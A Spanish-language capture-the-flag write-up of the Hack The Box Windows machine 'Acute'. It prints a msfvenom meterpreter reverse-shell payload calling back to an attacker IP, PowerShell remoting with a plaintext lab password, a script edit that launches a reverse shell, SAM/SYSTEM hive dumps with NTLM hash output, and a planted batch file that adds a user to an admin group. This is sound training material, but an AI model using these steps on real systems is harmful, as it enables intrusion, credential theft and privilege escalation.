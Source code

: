 ```yaml
---
title: Acute
date: 2022-07-31 13:25:30 +/-TTTT
categories: [HTB MACHINES, Windows]
tags: [exiftool, msscreenshare, hashdump, ad]     # TAG names should always be lowercase
---
```


Lo más relevante de esta máquina fue 

pudimos usar `exiftools` para poder ver los metadatos del archivo encontrado en la web

```shell 
exiftools document.docx
```

Ganamos acceso a la máquina y usamos metaexploit para poder user `screenshare`

```shell
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.16.8 LPORT=443 -f exe -o msf.exe

[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST 10.10.10.10
set LPORT 443

```

Tenemos una constraseñas del usuari imonk, procedemos a utilizar pscredentials

```shell
$passwd = ConvertTo-SecureString 'W3_4R3_th3_f0rce' -AsPlaintext -Force
$cred = New-Object System.Management.Automation.PSCredential('acute\imonks',$passwd)
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {whoami}
```

Obteniendo un script que podemos manipular, podemos modificarlo para entablarnos una reverse shell, utilizamos el mismo que teníamos en la carpeta Utils. 

```shell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {((Get-Content C:\Users\imonks\Desktop\wm.ps1 -Raw) 
-Replace 'Get-Volume','cmd.exe /c C:\Utils\shell.exe') | Set-Content -Path C:\Users\imonks\Desktop\wm.ps1}
```

Ganamos acceso como otro usuario, podemos hacer lo siguiente ya que está dentro del grupo administradores, podemos intentar obtener los hashes de los usuarios con 
`secretsdump`

```shell
reg save HKLM\SAM sam.backup
reg save HKLM\SYSTEM system.backup
```

Incluso con metasploit podremos obtener los hashes y podemos intentar crackearlos para obtener la contraseña.

```shell
hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
```

Con la contraseña podemos tener acceso a otro usuario por lo que revisando la máquina, vemos que hay un archivo en program files
que indica que cada 5 min ejecuta el archivo .bat, con Set-Content podemos crearnos un arcbivo asignando a nuestro usuario al grupo de domain_admins, utilizamos Siteadmin porque según la desripción
este grupo tiene los privilegios del grupo domain admins.

![imagen1](/assets/images/Acute.jpg)

```shell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {type C:\PROGRA~1\keepmeon\keepmeon.bat}
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {Set-Content C:\PROGRA~1\keepmeon\pwned.bat -Value 'net group Site_Admin awallace /domain /add'}
```
